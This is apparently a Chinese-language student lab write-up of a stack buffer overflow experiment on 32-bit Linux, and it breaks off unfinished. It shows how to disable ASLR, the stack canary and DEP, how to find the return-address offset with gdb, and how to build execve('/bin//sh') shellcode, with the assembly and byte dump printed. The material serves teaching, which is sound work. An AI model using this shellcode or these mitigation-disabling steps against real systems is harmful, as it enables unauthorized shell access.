栈溢出攻击实验

说来容易做来难：缓冲区溢出攻击原理并不难，本以为对组成原理理解深刻反手就做完这个实验，在实现过程中却屡屡踩坑。
Source Code： https://github.com/Wiflin/Security
0x0 环境准备
由于实验样例是跑在32位环境下的，所以要先配置好32位环境。
# sudo apt-get install lib32z1 libc6-dev-i386
# sudo apt-get install lib32readline-gplv2-dev
# linux32
缓冲溢出是一个相当古老的攻击方式，当年的莫里斯蠕虫就是利用缓冲区溢出进行攻击的。因此操作系统早已针对该攻击方式进行了保护，在实验过程中需要先关闭ASLR、Canary、DEP。
0x01 关闭ASLR
ASLR，全称为 Address Space Layout Randomization，地址空间布局随机化。ASLR 技术在 2005 年的 kernel 2.6.12 中被引入到 Linux 系统，它将进程的某些内存空间地址进行随机化来增大入侵者预测目的地址的难度，从而降低进程被成功入侵的风险。当前 Linux、Windows 等主流操作系统都已经采用该项技术。
Linux 平台上 ASLR 分为 0，1，2 三级，用户可以通过一个内核参数 randomize_va_space 进行等级控制。它们对应的效果如下：
- 0：没有随机化。即关闭 ASLR。
- 1：保留的随机化。共享库、栈、mmap() 以及 VDSO 将被随机化。
- 2：完全的随机化。在 1 的基础上，通过 brk() 分配的内存空间也将被随机化。
在ASLR下测试程序堆栈地址随机变化：
完全随机化
# sudo sysctl kernel/randomize_va_space
kernel.randomize_va_space = 2

关闭随机化
# sudo sysctl kernel/randomize_va_space=0

0x02 编译时关闭Canary和DEP
# -z execstack 用于关闭DEP
# -fno-stack-protector 用于关闭Canary
0x1 分析漏洞程序
0x11 观察溢出代码
函数复制字符串但并没有对字符串长度进行检查，将会导致栈溢出。通过溢出字节覆盖栈中保存返回eip的值，即在栈返回时改变指令流。

栈默认对齐16byte边界，而buffer字符串存放位置为\$ebp-14。因此返回的\$eip值保存在buffer[0x14+sizeof(void*)]。

0x12 观察主函数调用流程
既然溢出点在bof函数内，那么接下来就是观察主函数如果传递参数给溢出函数了。

可见，buffer[0x18]的值由str[0x18]复制所得。而str[0x18]的值从“badfile”文件中读取，文件字节流中第0x18~0x1c四字节将会最终被复制到栈返回时使用的eip的地方。
0x13 确定运行时shellcode的内存地址
利用gdb分析shellcode运行时保存的位置。编译器为将str字符串放置在$ebp-0x211的内存地址中，通过在main函数打断点，当程序运行到此时即可得知ebp寄存器的值，从而算得str字符串的位置。

0x2 实施攻击
0x21 准备shellcode
虽然网上有很多现成的shellcode，但是理解shellcode如何编写是理解整个攻击的关键。
编写shellcode汇编
section .text
global _start
_start:
jmp trampoline
shellcode:
xor eax, eax
push eax
push "n/sh"
push "//bi"
mov ebx, esp
push eax
push ebx
mov ecx, esp
mov al,11
int 0x80
section .data
trampoline:
call shellcode
通过编译/反汇编得到字节码
# nasm -o tmp -f elf32 -O0 shellcode.S
# objdump -d tmp >shellcode.asm
tmp: file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
0: e9 fc ff ff ff jmp 1 <_start+0x1>
00000005 <shellcode>:
5: 31 c0 xor %eax,%eax
7: 50 push %eax
8: 68 6e 2f 73 68 push $0x68732f6e
d: 68 2f 2f 62 69 push $0x69622f2f
12: 89 e3 mov %esp,%ebx
14: 50 push %eax
15: 53 push %ebx
16: 89 e1 mov %esp,%ecx
18: b0 0b mov $0xb,%al
1a: cd 80 int $0x80
关于shellcode编写的细节
https://security.stackexchange.com/questions/191384/why-does-my-x86-shellcode-test-program-segfault
0x22 exploit实现
最后生成出来的badfile文件中，第一处保存了shellcode的入口内存地址，第二处则为真正的shellcode系统调用。

0x23 运行时调试
在程序运行至溢出点后，观察栈的状态。

查看函数即将返回地址的指令，可以看到shellcode代码紧接着返回地址后面，通过空指令雪橇到达。

在系统调用之前，最后查看一次堆栈状态，execve系统调用后原进程地址空间将被回收，gdb将失去对程序的管控。

0x24 PWN

0x3 就这么简单？
攻击过程一帆风顺，这也符合我以前对组成原理和硬件的理解。可是，要是这么简单的话，这篇文章也就不会出现了。
0x31 意想不到的段错误
当一切进行顺利的时候，总会来些东西挑战你的自信。当我检查一切流程都运行正常时程序却报告了段错误，并且在gdb下系统调用被正常响应，在非调试状态下才会出现的段错误。
检查程序调用系统调用前的状态：
- $eax = 0xb
- $ebx = &shellcode
- $ecx = pointer to argv[]

由于赶课程报告，剩余部分有空再补充。。
To be continue…
0x32 在64位环境下的实验
0x33 突破操作系统的安全限制
Reference
[1] Linux Syscall Reference: http://syscalls.kernelgrok.com/
[2] Experiment code repository: https://github.com/Wiflin/Security/tree/master/experiments/ex1-stack-overflow